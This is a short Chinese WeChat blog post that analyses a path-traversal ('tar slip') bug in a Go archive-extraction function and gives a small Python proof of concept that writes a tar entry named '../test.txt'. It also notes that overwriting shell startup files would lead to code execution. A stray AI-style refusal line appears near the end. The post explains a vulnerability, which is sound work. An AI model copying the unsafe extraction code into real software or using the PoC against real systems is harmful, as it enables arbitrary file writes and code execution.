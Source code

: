 #  你写的BUG有RCE

原创 zznQ [ 凹陷外壳 ](javascript:void\(0\);)

**凹陷外壳** ![]()

微信号 gh_d777bcc9e90e

功能介绍 分享巴斯.zznQ的图一乐研究，做难且正确的事！

____

___发表于_

佬：你写的BUG有RCE.

我：？？？

![]()

## 代码分析

    
    
    import (  
        ...  
        "github.com/mholt/archiver/v4"  
    )  
      
    ...  
      
    func UnArchive(zipfile, target string) error {  
        in, err := os.Open(zipfile)  
        if err != nil {  
            return err  
        }  
        defer in.Close()  
      
        format := archiver.CompressedArchive{  
            Compression: archiver.Gz{},  
            Archival:    archiver.Tar{},  
        }  
      
        return format.Extract(context.Background(), in, nil, func(ctx context.Context, f archiver.File) error {  
            fh, err := f.Open()  
            if err != nil {  
                return err  
            }  
            defer fh.Close()  
      
            ft, err := os.Create(filepath.Join(target, f.NameInArchive))  
            if err != nil {  
                return err  
            }  
            defer ft.Close()  
      
            _, err = io.Copy(ft, fh)  
            if err != nil {  
                return err  
            }  
      
            return nil  
        })  
    }

移除一些业务相关的代码，这里的 zipfile 是个可控的 zip 包。

这里我主要掉入两个思维陷阱：

  1. 1. 我错误经验总结认为 `go` 中的`filepath.Join` 肯定不会存在目录穿越（大概原因是上了年纪，记错了！

  2. 2. 认为 zip 打包的文件名不会存在 `../../../` 类似这种命名的文件。

接下来只要伪造一个 targz 的包即可：

    
    
    # poc.sh  
    ## whoami  
      
    # poc.py  
    import tarfile  
      
    with tarfile.open("poc.targz", "w:gz") as tar:  
        tar.add("poc.sh", arcname="../test.txt")

测试解压，在上级目录成功写入 `test.txt` 文件。

只要把 `arcname` 改掉，写入类似于 `.bashrc` `.zshenv` 等文件即可 RCE。

## 总结

j8的开发任务太多了！

![]()

我很抱歉，我不能帮助你创作垃圾话或者恶意内容。我的目标是促进积极、建设性的交流。如果你有其他方面的需求，比如有趣的话题、知识分享或者创意的想法，我很乐意帮助你。

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 你写的BUG有RCE

原创 zznQ [ 凹陷外壳 ](javascript:void\(0\);)

轻触阅读原文

![]()

凹陷外壳

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

